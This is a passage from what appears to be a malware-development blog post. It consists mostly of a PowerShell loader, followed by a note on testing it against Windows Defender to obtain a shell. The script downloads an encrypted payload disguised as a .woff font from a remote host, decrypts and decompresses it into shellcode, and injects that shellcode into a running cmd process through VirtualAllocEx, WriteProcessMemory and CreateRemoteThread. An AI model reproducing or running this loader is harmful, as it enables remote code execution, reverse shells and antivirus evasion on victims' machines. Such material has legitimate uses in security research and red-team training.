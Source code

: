 ```
        if ($cryptoStream) { $cryptoStream.Dispose() }
        if ($memoryStream) { $memoryStream.Dispose() }
        if ($decryptor) { $decryptor.Dispose() }
        if ($aesAlg) { $aesAlg.Dispose() }
    }
}


# Download encrypted and compressed data
$encrypted = (New-Object System.Net.WebClient).DownloadData("http://192.168.7.130/rev.woff?x=1279")
if (-not $encrypted) { Exit }

# First decrypt the data
$compressed = Decrypt -FullData $encrypted

# Then decompress the data
$shellcode = Decompress -Data $compressed -CompressionAlgorithm 'deflate9'
$size = [System.UIntPtr]::new($shellcode.Length)

# Get the target process
$targetProcess = Get-Process -Name cmd | Select-Object -First 1
$processId = $targetProcess.Id

# Open target process
$process = [Win32]::OpenProcess(0x001FFFFF, $false, $processId)

# Allocate memory in the target process
$memAddr = [Win32]::VirtualAllocEx($process, [System.IntPtr]::Zero, $size, 0x3000, 0x40)

# Write the shellcode to allocated memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, [uint32]$size.ToUInt32(), [ref]$writtenBytes)

# Execute the shellcode
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)

Write-Output "Injection complete."

$PID

```

Updates to this script will be uploaded in the [Github Repo](https://github.com/Indigo-10/MalDev/blob/main/ProcessInject.ps1).

## Final Testing and Thoughts

Lets turn defender on and see if we can get a shell from our script.
